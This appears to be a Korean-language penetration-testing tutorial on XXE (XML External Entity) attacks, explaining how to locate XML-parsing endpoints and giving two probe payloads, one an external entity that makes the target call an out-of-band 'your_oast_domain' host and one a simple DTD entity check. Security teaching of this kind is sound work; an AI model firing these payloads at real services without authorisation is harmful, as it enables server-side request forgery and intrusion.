 # XXE

---

## XXE(XML External Entity) :

XML을 Parsing하여 사용하는 서비스에 악의적인 XML 구문을 Parsing하도록 유도하여 공격자가 의도한 동작을 수행하도록 하는 공격

기본적으로 XML Parser가 위치한 곳에서 부터 영향력이 발생하기 때문에 가볍게는 SSRF 같이 내부망 접근부터, RCE까지 큰 영향력을 가질 수 있습니다

### **Offensive techniques**

심플하겐 XML Parse가 동작하는 구간을 찾아야합니다. 소스코드를 볼 수 있는 상황이라면 코드에서 검색하는 것이 가장 빠르고 효율적이며, 소스코드 없이 순수하게 동작만으로만 봐야한다면 .xml 파일을 인자값으로 받거나, 에러에서 XML Parsing 관련 에러를 뱉는 구간을 위주로 점검해야합니다.

아래와 같이 눈에 띄게 xml 형태를 처리할 것으로 보이는 구간이 XXE가 존재할 가능성이 높은 부분입니다.

```bash
GET /readRss?url=https://rss_service/feeds.xml
```

이 때 우리는 XXE 구문이 포함된 파일을 서비스의 XML Parser가 읽고 분석하도록 하여 XXE를 유도 할 수 있습니다. 만약 위 readRss 란 페이지가 XML을 읽어 사용자에게 보여주는 기능을 가졌다면, 아래와 공격 구문으로 XXE 여부를 체크할 수 있습니다.

```html
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "https://your_oast_domain" >]>
<foo>&xxe;</foo>
```

위 구문이 Parsing되면 서비스는 XML 구문에 따라서 웹 요청을 발생시키기 위해 oast_domain으로 접근하게 됩니다. 우리는 이때 발생하는 HTTP Request와 DNS Qeury를 가지고 식별하면 됩니다. 이렇게 OAST, OOB 기반으로 식별하는 방법이 가장 여러 케이스에서 확인할 수 있는 좋은 방법입니다. (Blind XXE도 측정할 수 있죠)

다만 public oast 서비스는 2021년 log4j 사태 이후로 많은 서비스들에서 차단을 하고 있어서 직접 private한 oast 서비스를 구성하여 테스트하시는 것을 추천합니다.

만약 XML Parsing의 결과가 리턴된다면 단순하게 DTD 사용을 체크하는 것도 좋습니다.

```html
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```